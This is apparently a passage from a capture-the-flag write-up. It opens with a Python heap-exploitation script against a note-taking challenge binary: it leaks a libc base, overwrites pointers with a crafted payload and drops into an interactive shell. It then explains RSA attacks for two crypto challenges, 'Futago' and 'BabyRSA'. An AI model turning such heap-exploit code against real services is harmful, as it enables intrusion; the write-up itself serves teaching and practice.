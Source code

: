 ```python=
create_note("n2", 1152, 'a')
delete_note(0)
create_note("n3", 1152, 'a')
list_note()
r.recvuntil('a')
a = r.recvline()
base = u64('a' + a[:-1] + '\0\0' )

print hex(base)
print a, repr(a)
create_note("o1", 32, 'o1')
create_note("o2", 32, 'o2')

p1 = '6161616161616161616161616161616161616161616161616161616161616161616161616161616131000000000000006e6e6e6e6e6e6e6e6e6e6e6e6e6e6e6e2000000000000000'.decode('hex')
# 614bcc44cb7f
# 287bcc44cb7f
# a005b644cb7f
j = '287bcc44cb7f0000'

p1 += p64(base + 12231)
edit_note(2, 'aaaaaaaaaaaaaaaa\xff', p1)
edit_note(3, 'o2', p64(base - 1459649  -205200))
create_note("ls", 64, 'bash')
list_note()
delete_note(4)
r.interactive()
```

## crypto

### Futago

* level 1: Two $N$s have a non trivial common divisor, which trivialized the factorization
* level 2: Two $N$s are the same, but the $e$s are different. Since two $e$s have gcd 3, we can get $m^3$ by extended Euclidean algorithm. Luckily, $m^3 < N$, allowing us to recover $m$ by taking a cubic root.
* level 3: Assume $N_1 = pq$ and $N_2 = (p+a)(q+b)$. Bruteforce $a$ and $b$ and solve a quadratic equation to factorize both $N$s.

### BabyRSA

In this challenge, we are given a point on elliptic curve
$$E:y^2 = x^3 + px + q \pmod N$$
where $N, p, q$ are parameters of an RSA encrypted flag. By the process of prime generation, $q$ is 512-bit while $p$ is a 1024-bit, and such asymmetry reminds us of coppersmith attack. Specifically, plug in the coordinates of the given elliptic curve point $(x_0, y_0)$, we have
$$px_0 + q = y_0^2 - x_0^3 \pmod N.$$
Multiply by $q$ to eliminate the $p$, we get
$$q^2 = (y_0^2 - x_0^3)q \pmod N.$$
Thus, we get a quadratic equation of $q$. Since $q << N^{\frac{1}{2}}$, we can use standard coppersmith method to solve for $q$, and further compromise the RSA.
